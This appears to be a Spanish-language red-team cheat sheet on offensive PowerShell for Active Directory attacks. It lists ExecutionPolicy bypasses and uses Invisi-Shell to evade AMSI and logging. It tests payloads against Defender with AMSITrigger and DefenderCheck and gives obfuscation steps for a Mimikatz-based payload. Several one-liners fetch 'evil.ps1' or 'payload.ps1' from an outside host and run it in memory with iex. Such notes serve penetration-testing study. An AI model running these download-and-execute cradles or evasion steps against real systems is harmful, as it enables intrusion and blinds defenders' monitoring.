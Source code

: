 - Para enumeracion se usara powershell
- instalado de fabrica en todos los windows
- powershell no es powershell.exe es una dll, **System.Management.Automation.dll**
- ExecutionPolicy, no es una medida de seguridad, se hace para evitar ejecuciones accidentales, maneras de bypassear
```
- powershell -ExecutionPolicy bypass
- powershell -c <cmd>
- powershell -encodedcommand
- $env:PSExecutionPolicyPreference="bypass"
```






### INVISI-SHELL


sirve para evadir AMSI, CLM, SYSTEM-WIDE TRANSCRIPTION,SCRIPT BLOCK LOGGING mediante hooks a dos .NET Assemblies, **System.Management.Automation.dll** y **System.Core.dll**

para salir de la sesion se escribe **exit**



## AMSITrigger

```
AmsiTrigger_x64.exe -i C:\AD\Tools\Invoke-PowerShellTcp_Detected.ps1
```

## DefenderCheck

para identificar que strings en concreto hacen saltar el defender
```
DefenderCheck.exe PowerUp.ps1
```

## Bytetolinenumber.ps1

te dice la linea de codigo en la que se ha detectado algo, en vez de  un offset


## Maneras de ofuscar


1. Remove default comments. 2. Rename the script, function names and variables. 3. Modify the variable names of the Win32 API calls that are detected. 4. Obfuscate PEBytes content → PowerKatz dll using packers. 5. Implement a reverse function for PEBytes to avoid any static signatures. 6. Add a sandbox check to waste dynamic analysis resources. 7. Remove Reflective PE warnings for a clean output. 8. Use obfuscated commands for Invoke-MimiEx execution. 9. Analysis using DefenderCheck.






































# COMANDOS

## Para cargar un script de powershell

```
. C:\AD\Tools\PowerView.ps1
```


## para importar un modulo o un script


```
Import-Module C:\AD\Tools\ADModule- master\ActiveDirectory\ActiveDirectory.psd1
```
## para listar todos los comandos de un modulo

```
All the commands in a module can be listed with: Get-Command -Module <modulename>
```

## para descargar un script y cargarlo en memoria

```
iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')
```
## otro metodo para descargar y cargar en memoria un script usando iexplorer
```
$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1 ');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response
```
## carga y ejecucion en memoria de scripts en powershell a partir de la v3


```
iex (iwr 'http://192.168.230.1/evil.ps1')

```


## una manera más, usando XMLHTTP, una api antigua de microsoft


```
$h=New-Object -ComObject Msxml2.XMLHTTP
$h.open('GET','http://192.168.230.1/evil.ps1',$false)
$h.send()
iex $h.responseText

```



## ejecutar invisi-Shell con privilegios de admin

```
RunWithPathAsAdmin.bat
```

## ejecutar invisi-Shell sin privilegios de admin

```
RunWithRegistryNonAdmin.bat
```

12-32